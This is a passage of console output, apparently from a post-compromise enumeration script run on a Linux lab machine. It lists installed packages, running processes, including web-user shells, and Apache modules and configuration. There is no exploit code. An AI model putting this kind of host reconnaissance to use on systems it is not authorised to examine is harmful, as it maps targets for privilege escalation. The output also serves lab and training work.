    libquadmath0:i386 5.3.1-14ubuntu2.1  GCC Quad-Precision Math Library
    libreadline5:i386 5.2+dfsg-3build1  GNU readline and history libraries, run-time libraries
    libreadline6:i386 6.3-8ubuntu2  GNU readline and history libraries, run-time libraries
    libroken18-heimdal:i386 1.7~git20150920+dfsg-4ubuntu1  Heimdal Kerberos - roken support library
    librtmp1:i386 2.4+20151223.gitfa8646d-1build1  toolkit for RTMP streams (shared library)
    libsasl2-2:i386 2.1.26.dfsg1-14build1  Cyrus SASL - authentication abstraction library
    libsasl2-modules:i386 2.1.26.dfsg1-14build1  Cyrus SASL - pluggable authentication modules
    libsasl2-modules-db:i386 2.1.26.dfsg1-14build1  Cyrus SASL - pluggable authentication modules (DB)
    libseccomp2:i386 2.2.3-3ubuntu3  high level interface to Linux seccomp filter
    libselinux1:i386 2.4-3build2  SELinux runtime shared libraries
    libselinux1-dev:i386 2.4-3build2  SELinux development headers
    libsemanage-common 2.3-1build3  Common files for SELinux policy management libraries
    libsemanage1:i386 2.3-1build3  SELinux policy management library
    libsepol1:i386 2.4-2  SELinux library for manipulating binary security policies
    libsepol1-dev:i386 2.4-2  SELinux binary policy manipulation library and development files
    libsigsegv2:i386 2.10-4  Library for handling page faults in a portable way
    libslang2:i386 2.3.0-2ubuntu1  S-Lang programming library - runtime version
    libsmartcols1:i386 2.27.1-6ubuntu3  smart column output alignment library
    libsqlite3-0:i386 3.11.0-1ubuntu1  SQLite 3 shared library
    libss2:i386 1.42.13-1ubuntu1  command-line interface parsing library
    libssl1.0.0:i386 1.0.2g-1ubuntu4.1  Secure Sockets Layer toolkit - shared libraries
    libstdc++-5-dev:i386 5.3.1-14ubuntu2.1  GNU Standard C++ Library v3 (development files)
    libstdc++6:i386 5.3.1-14ubuntu2.1  GNU Standard C++ Library v3
    libsystemd0:i386 229-4ubuntu4  systemd utility library
    libtalloc2:i386 2.1.5-2  hierarchical pool based memory allocator
    libtasn1-6:i386 4.7-3ubuntu0.16.04.1  Manage ASN.1 structures (runtime)
    libtdb1:i386 1.3.8-2  Trivial Database - shared library
    libtevent0:i386 0.9.28-0ubuntu0.16.04.1  talloc-based event loop library - shared library
    libtext-charwidth-perl 0.04-7build5  get display widths of characters on the terminal
    libtext-iconv-perl 1.7-5build4  converts between character sets in Perl
    libtext-wrapi18n-perl 0.06-7.1  internationalized substitute of Text::Wrap
    libtiff5:i386 4.0.6-1  Tag Image File Format (TIFF) library
    libtimedate-perl 2.3000-2  collection of modules to manipulate date/time information
    libtinfo5:i386 6.0+20160213-1ubuntu1  shared low-level terminfo library for terminal handling
    libubsan0:i386 5.3.1-14ubuntu2.1  UBSan -- undefined behaviour sanitizer (runtime)
    libudev1:i386 229-4ubuntu4  libudev shared library
    liburi-perl 1.71-1  module to manipulate and access URI strings
    libusb-0.1-4:i386 2:0.1.12-28  userspace USB programming library
    libusb-1.0-0:i386 2:1.0.20-1  userspace USB programming library
    libustr-1.0-1:i386 1.0.4-5  Micro string library: shared library
    libutempter0:i386 1.1.6-3  privileged helper for utmp/wtmp updates (runtime)
    libuuid1:i386 2.27.1-6ubuntu3  Universally Unique ID library
    libvpx3:i386 1.5.0-2ubuntu1  VP8 and VP9 video codec (shared library)
    libwbclient0:i386 2:4.3.9+dfsg-0ubuntu0.16.04.2  Samba winbind client library
    libwind0-heimdal:i386 1.7~git20150920+dfsg-4ubuntu1  Heimdal Kerberos - stringprep implementation
    libwrap0:i386 7.6.q-25  Wietse Venema's TCP wrappers library
    libx11-6:i386 2:1.6.3-1ubuntu2  X11 client-side library
    libx11-data 2:1.6.3-1ubuntu2  X11 client-side library
    libxau6:i386 1:1.0.8-1  X11 authorisation library
    libxcb1:i386 1.11.1-1ubuntu1  X C Binding
    libxdmcp6:i386 1:1.1.2-1.1  X11 Display Manager Control Protocol library
    libxext6:i386 2:1.3.3-1  X11 miscellaneous extension library
    libxml2:i386 2.9.3+dfsg1-1  GNOME XML library
    libxmuu1:i386 2:1.1.2-2  X11 miscellaneous micro-utility library
    libxpm4:i386 1:3.5.11-1  X11 pixmap library
    libxslt1.1:i386 1.1.28-2.1  XSLT 1.0 processing library - runtime library
    libxtables11:i386 1.6.0-2ubuntu3  netfilter xtables library
    linux-base 4.0ubuntu1  Linux image base package
    linux-firmware 1.157  Firmware for Linux kernel drivers
    linux-headers-4.4.0-21 4.4.0-21.37  Header files related to Linux kernel version 4.4.0
    linux-headers-4.4.0-21-generic 4.4.0-21.37  Linux kernel headers for version 4.4.0 on 32 bit x86 SMP
    linux-headers-4.4.0-22 4.4.0-22.40  Header files related to Linux kernel version 4.4.0
    linux-headers-4.4.0-22-generic 4.4.0-22.40  Linux kernel headers for version 4.4.0 on 32 bit x86 SMP
    linux-headers-generic 4.4.0.22.23  Generic Linux kernel headers
    linux-image-4.4.0-21-generic 4.4.0-21.37  Linux kernel image for version 4.4.0 on 32 bit x86 SMP
    linux-image-4.4.0-22-generic 4.4.0-22.40  Linux kernel image for version 4.4.0 on 32 bit x86 SMP
    linux-image-extra-4.4.0-21-generic 4.4.0-21.37  Linux kernel extra modules for version 4.4.0 on 32 bit x86 SMP
    linux-image-extra-4.4.0-22-generic 4.4.0-22.40  Linux kernel extra modules for version 4.4.0 on 32 bit x86 SMP
    linux-libc-dev:i386 4.4.0-22.40  Linux Kernel Headers for development
    locales 2.23-0ubuntu3  GNU C Library: National Language (locale) data [support]
    login 1:4.2-3.1ubuntu5  system login tools
    logrotate 3.8.7-2ubuntu2  Log rotation utility
    lsb-base 9.20160110  Linux Standard Base init script functionality
    lsb-release 9.20160110  Linux Standard Base version reporting utility
    lvm2 2.02.133-1ubuntu10  Linux Logical Volume Manager
    lxc-common 2.0.0-0ubuntu2  Linux Containers userspace tools (common tools)
    lxcfs 2.0.0-0ubuntu2  FUSE based filesystem for LXC
    lxd-client 2.0.2-0ubuntu1~16.04.1  Container hypervisor based on LXC - client
    make 4.1-6  utility for directing compilation
    makedev 2.3.1-93ubuntu1  creates device files in /dev
    manpages 4.04-2  Manual pages about using a GNU/Linux system
    manpages-dev 4.04-2  Manual pages about using GNU/Linux for development
    mawk 1.3.3-17ubuntu2  a pattern scanning and text processing language
    mdadm 3.3-2ubuntu7  tool to administer Linux MD arrays (software RAID)
    mime-support 3.59ubuntu1  MIME files 'mime.types' & 'mailcap', and support programs
    mount 2.27.1-6ubuntu3  tools for mounting and manipulating filesystems
    multiarch-support 2.23-0ubuntu3  Transitional package to ensure multiarch compatibility
    mysql-client 5.7.12-0ubuntu1  MySQL database client (metapackage depending on the latest version)
    mysql-client-5.7 5.7.12-0ubuntu1  MySQL database client binaries
    mysql-client-core-5.7 5.7.12-0ubuntu1  MySQL database core client binaries
    mysql-common 5.7.12-0ubuntu1  MySQL database common files, e.g. /etc/mysql/my.cnf
    mysql-server 5.7.12-0ubuntu1  MySQL database server (metapackage depending on the latest version)
    mysql-server-5.7 5.7.12-0ubuntu1  MySQL database server binaries and system database setup
    mysql-server-core-5.7 5.7.12-0ubuntu1  MySQL database server binaries
    ncurses-base 6.0+20160213-1ubuntu1  basic terminal type definitions
    ncurses-bin 6.0+20160213-1ubuntu1  terminal-related programs and man pages
    ncurses-term 6.0+20160213-1ubuntu1  additional terminal type definitions
    net-tools 1.60-26ubuntu1  NET-3 networking toolkit
    netbase 5.3  Basic TCP/IP networking system
    netcat-openbsd 1.105-7ubuntu1  TCP/IP swiss army knife
    netcat-traditional 1.10-41  TCP/IP swiss army knife
    netfilter-persistent 1.0.4  boot-time loader for netfilter configuration
    open-iscsi 2.0.873+git0.3b4b4500-14ubuntu3  iSCSI initiator tools
    open-vm-tools 2:10.0.7-3227872-2ubuntu1  Open VMware Tools for virtual machines hosted on VMware (CLI)
    openssh-client 1:7.2p2-4  secure shell (SSH) client, for secure access to remote machines
    openssh-server 1:7.2p2-4  secure shell (SSH) server, for secure access from remote machines
    openssh-sftp-server 1:7.2p2-4  secure shell (SSH) sftp server module, for SFTP access from remote machines
    openssl 1.0.2g-1ubuntu4.1  Secure Sockets Layer toolkit - cryptographic utility
    os-prober 1.70ubuntu3  utility to detect other OSes on a set of drives
    overlayroot 0.27ubuntu1  use an overlayfs on top of a read-only root filesystem
    passwd 1:4.2-3.1ubuntu5  change and administer password and group data
    pastebinit 1.5-1  command-line pastebin client
    patch 2.7.5-1  Apply a diff file to an original
    pciutils 1:3.3.1-1.1ubuntu1  Linux PCI Utilities
    perl 5.22.1-9  Larry Wall's Practical Extraction and Report Language
    perl-base 5.22.1-9  minimal Perl system
    perl-modules-5.22 5.22.1-9  Core Perl modules
    php-common 1:35ubuntu6  Common files for PHP packages
    php-gd 1:7.0+35ubuntu6  GD module for PHP [default]
    php-gettext 1.0.11-2build1  read gettext MO files directly, without requiring anything other than PHP
    php-mbstring 1:7.0+35ubuntu6  MBSTRING module for PHP [default]
    php-mysql 1:7.0+35ubuntu6  MySQL module for PHP [default]
    php-pear 1:1.10.1+submodules+notgz-6  PEAR Base System
    php-phpseclib 2.0.1-1build1  implementations of an arbitrary-precision integer arithmetic library
    php-tcpdf 6.0.093+dfsg-1ubuntu1  PHP class for generating PDF files on-the-fly
    php-xml 1:7.0+35ubuntu6  DOM, SimpleXML, WDDX, XML, and XSL module for PHP [default]
    php7.0 7.0.4-7ubuntu2.1  server-side, HTML-embedded scripting language (metapackage)
    php7.0-cli 7.0.4-7ubuntu2.1  command-line interpreter for the PHP scripting language
    php7.0-common 7.0.4-7ubuntu2.1  documentation, examples and common module for PHP
    php7.0-fpm 7.0.4-7ubuntu2.1  server-side, HTML-embedded scripting language (FPM-CGI binary)
    php7.0-gd 7.0.4-7ubuntu2.1  GD module for PHP
    php7.0-json 7.0.4-7ubuntu2.1  JSON module for PHP
    php7.0-mbstring 7.0.4-7ubuntu2.1  MBSTRING module for PHP
    php7.0-mysql 7.0.4-7ubuntu2.1  MySQL module for PHP
    php7.0-opcache 7.0.4-7ubuntu2.1  Zend OpCache module for PHP
    php7.0-readline 7.0.4-7ubuntu2.1  readline module for PHP
    php7.0-xml 7.0.4-7ubuntu2.1  DOM, SimpleXML, WDDX, XML, and XSL module for PHP
    phpmyadmin 4:4.5.4.1-2ubuntu1  MySQL web administration tool
    pkg-config 0.29.1-0ubuntu1  manage compile and link flags for libraries
    plymouth 0.9.2-3ubuntu13  boot animation, logger and I/O multiplexer
    plymouth-theme-ubuntu-text 0.9.2-3ubuntu13  boot animation, logger and I/O multiplexer - ubuntu text theme
    policykit-1 0.105-14.1  framework for managing administrative policies and privileges
    postfix 3.1.0-3  High-performance mail transport agent
    procps 2:3.3.10-4ubuntu2  /proc file system utilities
    psmisc 22.21-2.1build1  utilities that use the proc file system
    python 2.7.11-1  interactive high-level object-oriented language (default version)
    python-apt-common 1.1.0~beta1build1  Python interface to libapt-pkg (locales)
    python-crypto 2.6.1-6build1  cryptographic algorithms and protocols for Python
    python-dnspython 1.12.0-1  DNS toolkit for Python
    python-ldb 2:1.1.24-1ubuntu3  Python bindings for LDB
    python-minimal 2.7.11-1  minimal subset of the Python language (default version)
    python-samba 2:4.3.9+dfsg-0ubuntu0.16.04.2  Python bindings for Samba
    python-talloc 2.1.5-2  hierarchical pool based memory allocator - Python bindings
    python-tdb 1.3.8-2  Python bindings for TDB
    python2.7 2.7.11-7ubuntu1  Interactive high-level object-oriented language (version 2.7)
    python2.7-minimal 2.7.11-7ubuntu1  Minimal subset of the Python language (version 2.7)
    python3 3.5.1-3  interactive high-level object-oriented language (default python3 version)
    python3-apport 2.20.1-0ubuntu2  Python 3 library for Apport crash report handling
    python3-apt 1.1.0~beta1build1  Python 3 interface to libapt-pkg
    python3-chardet 2.3.0-2  universal character encoding detector for Python3
    python3-dbus 1.2.0-3  simple interprocess messaging system (Python 3 interface)
    python3-debian 0.1.27ubuntu2  Python 3 modules to work with Debian-related data formats
    python3-gi 3.20.0-0ubuntu1  Python 3 bindings for gobject-introspection libraries
    python3-minimal 3.5.1-3  minimal subset of the Python language (default python3 version)
    python3-newt 0.52.18-1ubuntu2  NEWT module for Python3
    python3-pkg-resources 20.7.0-1  Package Discovery and Resource Access using pkg_resources
    python3-problem-report 2.20.1-0ubuntu2  Python 3 library to handle problem reports
    python3-pycurl 7.43.0-1ubuntu1  Python bindings to libcurl (Python 3)
    python3-requests 2.9.1-3  elegant and simple HTTP library for Python3, built for human beings
    python3-six 1.10.0-3  Python 2 and 3 compatibility library (Python 3 interface)
    python3-software-properties 0.96.20  manage the repositories that you install software from
    python3-systemd 231-2build1  Python 3 bindings for systemd
    python3-urllib3 1.13.1-2  HTTP library with thread-safe connection pooling for Python3
    python3.5 3.5.1-10  Interactive high-level object-oriented language (version 3.5)
    python3.5-minimal 3.5.1-10  Minimal subset of the Python language (version 3.5)
    readline-common 6.3-8ubuntu2  GNU readline and history libraries, common files
    rename 0.20-4  Perl extension for renaming multiple files
    resolvconf 1.78ubuntu2  name server information handler
    rsync 3.1.1-3ubuntu1  fast, versatile, remote (and local) file-copying tool
    rsyslog 8.16.0-1ubuntu3  reliable system and kernel logging daemon
    run-one 1.17-0ubuntu1  run just one instance of a command and its args at a time
    samba 2:4.3.9+dfsg-0ubuntu0.16.04.2  SMB/CIFS file, print, and login server for Unix
    samba-common 2:4.3.9+dfsg-0ubuntu0.16.04.2  common files used by both the Samba server and client
    samba-common-bin 2:4.3.9+dfsg-0ubuntu0.16.04.2  Samba common files used by both the server and the client
    samba-dsdb-modules 2:4.3.9+dfsg-0ubuntu0.16.04.2  Samba Directory Services Database
    samba-libs:i386 2:4.3.9+dfsg-0ubuntu0.16.04.2  Samba core libraries
    samba-vfs-modules 2:4.3.9+dfsg-0ubuntu0.16.04.2  Samba Virtual FileSystem plugins
    screen 4.3.1-2build1  terminal multiplexer with VT100/ANSI terminal emulation
    sed 4.2.2-7  The GNU sed stream editor
    sensible-utils 0.0.9  Utilities for sensible alternative selection
    sgml-base 1.26+nmu4ubuntu1  SGML infrastructure and SGML catalog file support
    shared-mime-info 1.5-2  FreeDesktop.org shared MIME database and spec
    snapd 2.0.2  Tool to interact with Ubuntu Core Snappy.
    software-properties-common 0.96.20  manage the repositories that you install software from (common)
    sosreport 3.2+git276-g7da50d6-3ubuntu1  Set of tools to gather troubleshooting data from a system
    squashfs-tools 1:4.3-3ubuntu2  Tool to create and append to squashfs filesystems
    ssh-import-id 5.5-0ubuntu1  securely retrieve an SSH public key and install it locally
    ssl-cert 1.0.37  simple debconf wrapper for OpenSSL
    sudo 1.8.16-0ubuntu1  Provide limited super user privileges to specific users
    systemd 229-4ubuntu4  system and service manager
    systemd-sysv 229-4ubuntu4  system and service manager - SysV links
    sysv-rc 2.88dsf-59.3ubuntu2  System-V-like runlevel change mechanism
    sysvinit-utils 2.88dsf-59.3ubuntu2  System-V-like utilities
    tar 1.28-2.1  GNU version of the tar archiving utility
    tasksel 3.34ubuntu3  tool for selecting tasks for installation on Debian systems
    tasksel-data 3.34ubuntu3  official tasks used for installation of Debian systems
    tcpd 7.6.q-25  Wietse Venema's TCP wrapper utilities
    tdb-tools 1.3.8-2  Trivial Database - bundled binaries
    tmux 2.1-3build1  terminal multiplexer
    tzdata 2016d-0ubuntu0.16.04  time zone and daylight-saving time data
    ubuntu-cloudimage-keyring 2013.11.11  GnuPG keys of the Ubuntu Cloud Image builder
    ubuntu-core-launcher 1.0.27.1  Launcher for ubuntu-core (snappy) apps
    ubuntu-keyring 2012.05.19  GnuPG keys of the Ubuntu archive
    ubuntu-server 1.361  The Ubuntu Server system
    ucf 3.0036  Update Configuration File(s): preserve user changes to config files
    udev 229-4ubuntu4  /dev/ and hotplug management daemon
    uidmap 1:4.2-3.1ubuntu5  programs to help use subuids
    unattended-upgrades 0.90  automatic installation of security upgrades
    unzip 6.0-20ubuntu1  De-archiver for .zip files
    update-inetd 4.43  inetd configuration file updater
    update-notifier-common 3.168  Files shared between update-notifier and other packages
    ureadahead 0.100.0-19  Read required files in advance
    usbutils 1:007-4  Linux USB utilities
    util-linux 2.27.1-6ubuntu3  miscellaneous system utilities
    vim 2:7.4.1689-3ubuntu1  Vi IMproved - enhanced vi editor
    vim-common 2:7.4.1689-3ubuntu1  Vi IMproved - Common files
    vim-runtime 2:7.4.1689-3ubuntu1  Vi IMproved - Runtime files
    vim-tiny 2:7.4.1689-3ubuntu1  Vi IMproved - enhanced vi editor - compact version
    vlan 1.9-3.2ubuntu1  user mode programs to enable VLANs on your ethernet devices
    vsftpd 3.0.3-3ubuntu2  lightweight, efficient FTP server written for security
    wget 1.17.1-1ubuntu1  retrieves files from the web
    whiptail 0.52.18-1ubuntu2  Displays user-friendly dialog boxes from shell scripts
    wireless-regdb 2015.07.20-1ubuntu1  wireless regulatory database
    xauth 1:1.0.9-1ubuntu2  X authentication utility
    xdg-user-dirs 0.15-2ubuntu6  tool to manage well known user directories
    xfsprogs 4.3.0+nmu1ubuntu1  Utilities for managing the XFS filesystem
    xkb-data 2.16-1ubuntu1  X Keyboard Extension (XKB) configuration data
    xml-core 0.13+nmu2  XML infrastructure and XML catalog file support
    xz-utils 5.1.1alpha+20120614-2ubuntu2  XZ-format compression utilities
    zerofree 1.0.3-1  zero free blocks from ext2, ext3 and ext4 file-systems
    zlib1g:i386 1:1.2.8.dfsg-2ubuntu4  compression library - runtime
    zsh 5.1.1-1ubuntu2  shell with lots of features
    zsh-common 5.1.1-1ubuntu2  architecture independent files for Zsh

[+] Current processes
    USER PID START TIME COMMAND
    root 1 14:08 0:17 /sbin/init
    root 2 14:08 0:00 [kthreadd]
    root 3 14:08 2:50 [ksoftirqd/0]
    root 5 14:08 0:00 [kworker/0:0H]
    root 7 14:08 0:52 [rcu_sched]
    root 8 14:08 0:00 [rcu_bh]
    root 9 14:08 0:00 [migration/0]
    root 10 14:08 0:02 [watchdog/0]
    root 11 14:08 0:00 [kdevtmpfs]
    root 12 14:08 0:00 [netns]
    root 13 14:08 0:00 [perf]
    root 14 14:08 0:00 [khungtaskd]
    root 15 14:08 0:00 [writeback]
    root 16 14:08 0:00 [ksmd]
    root 17 14:08 0:02 [khugepaged]
    root 18 14:08 0:00 [crypto]
    root 19 14:08 0:00 [kintegrityd]
    root 20 14:08 0:00 [bioset]
    root 21 14:08 0:00 [kblockd]
    root 22 14:08 0:00 [ata_sff]
    root 23 14:08 0:00 [md]
    root 24 14:08 0:00 [devfreq_wq]
    root 28 14:08 0:00 [kswapd0]
    root 29 14:08 0:00 [vmstat]
    root 30 14:08 0:00 [fsnotify_mark]
    root 31 14:08 0:00 [ecryptfs-kthrea]
    root 46 14:08 0:00 [kthrotld]
    root 47 14:08 0:00 [acpi_thermal_pm]
    root 50 14:08 0:00 [bioset]
    root 51 14:08 0:00 [bioset]
    root 52 14:08 0:00 [bioset]
    root 53 14:08 0:00 [bioset]
    root 54 14:08 0:00 [bioset]
    root 55 14:08 0:00 [bioset]
    root 56 14:08 0:00 [bioset]
    root 57 14:08 0:00 [bioset]
    root 58 14:08 0:00 [bioset]
    root 59 14:08 0:00 [bioset]
    root 60 14:08 0:00 [bioset]
    root 61 14:08 0:00 [bioset]
    root 62 14:08 0:00 [bioset]
    root 63 14:08 0:00 [bioset]
    root 64 14:08 0:00 [bioset]
    root 65 14:08 0:00 [bioset]
    root 66 14:08 0:00 [bioset]
    root 67 14:08 0:00 [bioset]
    root 68 14:08 0:00 [bioset]
    root 69 14:08 0:00 [bioset]
    root 70 14:08 0:00 [bioset]
    root 71 14:08 0:00 [bioset]
    root 72 14:08 0:00 [bioset]
    root 73 14:08 0:00 [bioset]
    root 74 14:08 0:00 [ipv6_addrconf]
    root 87 14:08 0:00 [deferwq]
    root 88 14:08 0:00 [charger_manager]
    root 134 14:08 0:00 [kpsmoused]
    root 175 14:08 0:00 [scsi_eh_0]
    root 176 14:08 0:00 [scsi_tmf_0]
    root 177 14:08 0:00 [scsi_eh_1]
    root 178 14:08 0:00 [scsi_tmf_1]
    root 179 14:08 0:00 [scsi_eh_2]
    root 180 14:08 0:00 [scsi_tmf_2]
    root 181 14:08 0:00 [scsi_eh_3]
    root 182 14:08 0:00 [scsi_tmf_3]
    root 183 14:08 0:00 [scsi_eh_4]
    root 184 14:08 0:00 [scsi_tmf_4]
    root 185 14:08 0:00 [scsi_eh_5]
    root 186 14:08 0:00 [scsi_tmf_5]
    root 187 14:08 0:00 [scsi_eh_6]
    root 188 14:08 0:00 [scsi_tmf_6]
    root 189 14:08 0:00 [scsi_eh_7]
    root 190 14:08 0:00 [scsi_tmf_7]
    root 191 14:08 0:00 [scsi_eh_8]
    root 192 14:08 0:00 [scsi_tmf_8]
    root 193 14:08 0:00 [scsi_eh_9]
    root 194 14:08 0:00 [scsi_tmf_9]
    root 195 14:08 0:00 [scsi_eh_10]
    root 196 14:08 0:00 [scsi_tmf_10]
    root 197 14:08 0:00 [scsi_eh_11]
    root 198 14:08 0:00 [scsi_tmf_11]
    root 199 14:08 0:00 [scsi_eh_12]
    root 200 14:08 0:00 [scsi_tmf_12]
    root 201 14:08 0:00 [scsi_eh_13]
    root 202 14:08 0:00 [scsi_tmf_13]
    root 203 14:08 0:00 [scsi_eh_14]
    root 204 14:08 0:00 [scsi_tmf_14]
    root 205 14:08 0:00 [scsi_eh_15]
    root 206 14:08 0:00 [scsi_tmf_15]
    root 207 14:08 0:00 [scsi_eh_16]
    root 208 14:08 0:00 [scsi_tmf_16]
    root 209 14:08 0:00 [scsi_eh_17]
    root 210 14:08 0:00 [scsi_tmf_17]
    root 211 14:08 0:00 [scsi_eh_18]
    root 212 14:08 0:00 [scsi_tmf_18]
    root 213 14:08 0:00 [scsi_eh_19]
    root 214 14:08 0:00 [scsi_tmf_19]
    root 215 14:08 0:00 [scsi_eh_20]
    root 216 14:08 0:00 [scsi_tmf_20]
    root 217 14:08 0:00 [scsi_eh_21]
    root 218 14:08 0:00 [scsi_tmf_21]
    root 219 14:08 0:00 [scsi_eh_22]
    root 220 14:08 0:00 [scsi_tmf_22]
    root 221 14:08 0:00 [scsi_eh_23]
    root 222 14:08 0:00 [scsi_tmf_23]
    root 223 14:08 0:00 [scsi_eh_24]
    root 224 14:08 0:00 [scsi_tmf_24]
    root 225 14:08 0:00 [scsi_eh_25]
    root 226 14:08 0:00 [scsi_tmf_25]
    root 227 14:08 0:00 [scsi_eh_26]
    root 228 14:08 0:00 [scsi_tmf_26]
    root 229 14:08 0:00 [scsi_eh_27]
    root 230 14:08 0:00 [scsi_tmf_27]
    root 231 14:08 0:00 [scsi_eh_28]
    root 232 14:08 0:00 [scsi_tmf_28]
    root 233 14:08 0:00 [scsi_eh_29]
    root 234 14:08 0:00 [scsi_tmf_29]
    root 263 14:08 0:00 [mpt_poll_0]
    root 264 14:08 0:00 [mpt/0]
    root 265 14:08 0:00 [bioset]
    root 267 14:08 0:00 [scsi_eh_30]
    root 268 14:08 0:00 [scsi_tmf_30]
    root 369 14:09 0:00 [raid5wq]
    root 401 14:09 0:00 [bioset]
    root 428 14:09 0:03 [kworker/0:1H]
    root 430 14:09 0:03 [jbd2/sda1-8]
    root 431 14:09 0:00 [ext4-rsv-conver]
    root 478 14:09 0:00 [iscsi_eh]
    root 482 14:09 0:00 [ib_addr]
    root 483 14:09 0:01 /lib/systemd/systemd-journald
    root 486 14:09 0:00 [ib_mcast]
    root 487 14:09 0:00 [ib_nl_sa_wq]
    root 493 14:09 0:00 [ib_cm]
    root 494 14:09 0:00 [iw_cm_wq]
    root 497 14:09 0:00 [rdma_cm]
    root 504 14:09 0:00 [kauditd]
    root 505 14:09 0:00 /sbin/lvmetad
    root 541 14:09 0:00 /lib/systemd/systemd-udevd
    root 619 14:09 0:00 [iprt-VBoxWQueue]
    root 724 14:09 0:00 /usr/sbin/acpid
    daemon 727 14:09 0:00 /usr/sbin/atd
    message+ 730 14:09 0:01 /usr/bin/dbus-daemon
    root 733 14:09 0:00 /usr/sbin/cron
    root 744 14:09 0:02 /usr/bin/lxcfs
    syslog 757 14:09 0:00 /usr/sbin/rsyslogd
    root 765 14:09 0:00 /lib/systemd/systemd-logind
    root 778 14:09 1:33 [kworker/0:4]
    root 813 14:09 0:00 /sbin/mdadm
    dnsmasq 834 14:09 0:00 /usr/sbin/dnsmasq
    root 902 14:09 0:00 /usr/sbin/sshd
    root 946 14:09 0:00 /usr/sbin/vsftpd
    mysql 955 14:09 0:25 /usr/sbin/mysqld
    root 969 14:09 0:01 /sbin/iscsid
    root 970 14:09 0:40 /sbin/iscsid
    nobody 1091 14:09 0:00 /usr/sbin/atftpd
    root 1104 14:09 0:00 /usr/sbin/inetutils-inetd
    root 1109 14:09 0:06 php-fpm:
    www-data 1135 14:09 0:00 php-fpm:
    www-data 1136 14:09 0:00 php-fpm:
    root 1166 14:09 0:00 /usr/sbin/smbd
    root 1167 14:09 0:00 /usr/sbin/smbd
    root 1171 14:09 0:00 dhclient
    root 1173 14:09 0:04 /usr/sbin/nmbd
    root 1174 14:09 0:00 /usr/sbin/smbd
    root 1191 14:09 0:07 /usr/sbin/apache2
    root 1301 14:09 0:00 /bin/bash
    root 1303 14:09 0:00 /bin/bash
    root 1305 14:09 0:00 su
    root 1307 14:09 0:00 su
    JKanode 1325 14:09 0:00 /lib/systemd/systemd
    JKanode 1327 14:09 0:00 (sd-pam)
    root 1331 14:09 0:02 /sbin/agetty
    www 1336 14:09 0:00 /lib/systemd/systemd
    www 1338 14:09 0:00 (sd-pam)
    JKanode 1344 14:09 0:00 bash
    JKanode 1345 14:09 0:22 python2
    www 1346 14:09 0:00 bash
    www 1347 14:09 0:17 php
    root 1371 14:10 0:00 /usr/lib/postfix/sbin/master
    postfix 1377 14:10 0:00 qmgr
    root 1541 14:18 0:00 nc
    postfix 7403 19:07 0:00 pickup
    www-data 7607 19:22 0:00 /usr/sbin/apache2
    www-data 7924 19:58 0:00 /usr/sbin/apache2
    root 7962 20:04 0:00 [kworker/u2:1]
    root 8131 20:15 0:00 [kworker/0:1]
    root 8146 20:16 0:00 [kworker/u2:0]
    www-data 8558 20:21 0:00 /usr/sbin/apache2
    www-data 8560 20:22 0:00 /usr/sbin/apache2
    www-data 8569 20:23 0:00 sh
    www-data 8570 20:23 0:00 python
    www-data 8571 20:23 0:00 /bin/sh
    www-data 8572 20:23 0:00 /usr/sbin/apache2
    root 8573 20:23 0:00 [kworker/u2:2]
    www-data 8578 20:23 0:00 /usr/sbin/apache2
    root 8611 20:24 0:00 [kworker/0:0]
    root 8631 20:26 0:00 /usr/sbin/smbd
    www-data 8633 20:26 0:00 python
    www-data 8965 20:26 0:00 /bin/sh
    www-data 8966 20:26 0:00 ps
    www-data 8967 20:26 0:00 awk

[+] Apache Version and Modules
    Server version: Apache/2.4.18 (Ubuntu)
    Server built:   2016-04-15T18:00:57
    Loaded Modules:
    core_module (static)
    so_module (static)
    watchdog_module (static)
    http_module (static)
    log_config_module (static)
    logio_module (static)
    version_module (static)
    unixd_module (static)
    access_compat_module (shared)
    alias_module (shared)
    auth_basic_module (shared)
    authn_core_module (shared)
    authn_file_module (shared)
    authz_core_module (shared)
    authz_host_module (shared)
    authz_user_module (shared)
    autoindex_module (shared)
    deflate_module (shared)
    dir_module (shared)
    env_module (shared)
    filter_module (shared)
    headers_module (shared)
    mime_module (shared)
    mpm_prefork_module (shared)
    negotiation_module (shared)
    php7_module (shared)
    rewrite_module (shared)
    setenvif_module (shared)
    socache_shmcb_module (shared)
    ssl_module (shared)
    status_module (shared)
    Compiled in modules:
    core.c
    mod_so.c
    mod_watchdog.c
    http_core.c
    mod_log_config.c
    mod_logio.c
    mod_version.c
    mod_unixd.c

[+] Apache Config File
    # This is the main Apache server configuration file.  It contains the
    # configuration directives that give the server its instructions.
    # See http://httpd.apache.org/docs/2.4/ for detailed information about
    # the directives and /usr/share/doc/apache2/README.Debian about Debian specific
    # hints.
    #
    #
    # Summary of how the Apache 2 configuration works in Debian:
    # The Apache 2 web server configuration in Debian is quite different to
    # upstream's suggested way to configure the web server. This is because Debian's
    # default Apache2 installation attempts to make adding and removing modules,
    # virtual hosts, and extra configuration directives as flexible as possible, in
    # order to make automating the changes and administering the server as easy as
    # possible.
    # It is split into several files forming the configuration hierarchy outlined
    # below, all located in the /etc/apache2/ directory:
    #
    #	/etc/apache2/
    #	|-- apache2.conf
    #	|	`--  ports.conf
    #	|-- mods-enabled
    #	|	|-- *.load
    #	|	`-- *.conf
    #	|-- conf-enabled
    #	|	`-- *.conf
    # 	`-- sites-enabled
    #	 	`-- *.conf
    #
    #
    # * apache2.conf is the main configuration file (this file). It puts the pieces
    #   together by including all remaining configuration files when starting up the
    #   web server.
    #
    # * ports.conf is always included from the main configuration file. It is
    #   supposed to determine listening ports for incoming connections which can be
    #   customized anytime.
    #
    # * Configuration files in the mods-enabled/, conf-enabled/ and sites-enabled/
    #   directories contain particular configuration snippets which manage modules,
    #   global configuration fragments, or virtual host configurations,
    #   respectively.
    #
    #   They are activated by symlinking available configuration files from their
    #   respective *-available/ counterparts. These should be managed by using our
    #   helpers a2enmod/a2dismod, a2ensite/a2dissite and a2enconf/a2disconf. See
    #   their respective man pages for detailed information.
    #
    # * The binary is called apache2. Due to the use of environment variables, in
    #   the default configuration, apache2 needs to be started/stopped with
    #   /etc/init.d/apache2 or apache2ctl. Calling /usr/bin/apache2 directly will not
    #   work with the default configuration.
    # Global configuration
    #
    #
    # ServerRoot: The top of the directory tree under which the server's
    # configuration, error, and log files are kept.
    #
    # NOTE!  If you intend to place this on an NFS (or otherwise network)
    # mounted filesystem then please read the Mutex documentation (available
    # at );
    # you will save yourself a lot of trouble.
    #
    # Do NOT add a slash at the end of the directory path.
    #
    #ServerRoot "/etc/apache2"
    #
    # The accept serialization lock file MUST BE STORED ON A LOCAL DISK.
    #
    Mutex file:${APACHE_LOCK_DIR} default
    #
